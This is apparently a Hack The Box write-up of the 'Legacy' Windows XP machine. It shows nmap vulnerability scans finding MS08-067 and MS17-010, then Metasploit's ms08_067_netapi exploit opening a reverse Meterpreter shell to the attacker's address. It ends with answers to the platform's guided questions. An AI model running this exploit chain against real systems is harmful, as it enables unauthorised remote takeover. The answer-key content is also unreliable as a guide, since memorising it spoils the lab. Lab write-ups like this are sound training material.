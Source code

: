 ![](assets/Pasted%20image%2020241011232433.png)
# Machine Name: Legacy
**Platform:** Hack The Box
**Difficulty:** Easy
**OS:** Windows

## Introduction

Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.
## Recon

* **Nmap Scan:** `nmap legacy.htb -sVC -T4 -oN ~/Desktop/nmap/legacy.txt`

```bash
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b0:6e:b5 (VMware)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-10-16T19:24:21+03:00
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s

```

The machine seems to have an open SMB  at port 445. No http open, so I'm assuming this is where we should be digging 

## Vulnerability Identification

* **Vulnerability 1:** Vuln Scan `nmap legacy.htb --script vuln -oN ~/Desktop/nmap/legacy_vuln.txt`

```bash

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-11 23:27 JST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for legacy.htb (10.129.227.181)
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:ls

|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-054: false

Nmap done: 1 IP address (1 host up) scanned in 68.34 seconds
```

The vuln scan gave me two CVE related SMB RCE . Here is the result in Metasploit

```bash
msf6 > search CVE-2008-4250

Matching Modules
================

   #   Name                                                             Disclosure Date  Rank   Check  Description
   -   ----                                                             ---------------  ----   -----  -----------
   0   exploit/windows/smb/ms08_067_netapi                              2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
   1     \_ target: Automatic Targeting                                 .                .      .      .
   2     \_ target: Windows 2000 Universal                              .                .      .      .
   3     \_ target: Windows XP SP0/SP1 Universal                        .                .      .       

```
## Exploitation

* **Gaining Initial Access:** Using the `ms08_067_netapi` module , I was able to get foothold access to the target easily.

```bash

msf6 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.129.227.181
rhosts => 10.129.227.181
msf6 exploit(windows/smb/ms08_067_netapi) > set lhost tun0
lhost => 10.10.14.3
msf6 exploit(windows/smb/ms08_067_netapi) > check
[+] 10.129.227.181:445 - The target is vulnerable.
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] 10.129.227.181:445 - Automatically detecting the target...
[*] 10.129.227.181:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.227.181:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.227.181:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176198 bytes) to 10.129.227.181
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.129.227.181:1036) at 2024-10-11 23:34:35 +0900

```

searching for `user.txt`...

```bash

meterpreter > search -f user.txt
Found 1 result...
=================

Path                                             Size (bytes)  Modified (UTC)
----                                             ------------  --------------
c:\Documents and Settings\john\Desktop\user.txt  32            2017-03-16 15:19:49 +0900
```

That was pretty straight forward. The file was accessible and also `root.txt` was in the `Administrator/Desktop` which is also under `Documents and Settings` directory.
## Guided Mode ( if any )

1. How many TCP ports are open on Legacy? : `3`
	1. Simple Nmap will give me the result
2. What is the 2008 CVE ID for a vulnerability in SMB that allows for remote code execution? : `CVE-2008-4250`
	1. --script vuln result had this 
3. What is the name of the Metasploit module that exploits CVE-2008-4250? : `ms08_067_netapi`
	1. msfconsole search using the CVE ID
4. When exploiting MS08-067, what user does execution run as? Include the information before and after : `NT AUTHORITY\SYSTEM`
	1. Just check the user after access
5. In addition to MS08-067, Legacy's SMB service is also vulnerable to another remote code execution vulnerability with a CVE ID from 2017. What is that ID? : `CVE-2017-0143`
	1. Vuln scan result had this 
## Lessons Learned

- Vuln scan is a friend. Try to check this for CVE info
- 

## Conclusion

* Summarize your overall experience with the machine.
* Highlight the challenges you faced and how you overcame them.
* Offer any advice to others attempting the same machine.

**Happy hacking!**